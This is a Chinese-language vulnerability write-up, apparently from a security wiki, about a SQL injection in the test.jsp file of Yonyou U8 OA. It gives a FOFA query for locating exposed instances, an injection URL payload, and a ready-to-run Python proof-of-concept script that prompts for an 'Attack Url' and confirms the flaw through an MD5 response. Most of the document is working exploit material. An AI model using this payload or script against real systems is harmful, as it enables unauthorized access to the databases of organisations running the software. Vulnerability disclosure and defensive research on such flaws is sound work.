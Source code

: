 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

```
用友 U8 OA
```

## FOFA

```
"用友U8-OA"
```

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA A6 test.jsp SQL注入漏洞.html)

登录页面如下

![yongyou-1-1](./images/yongyou-1-1.png)

POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![yongyou-1-2](./images/yongyou-1-2.png)

利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![yongyou-1-3](./images/yongyou-1-3.png)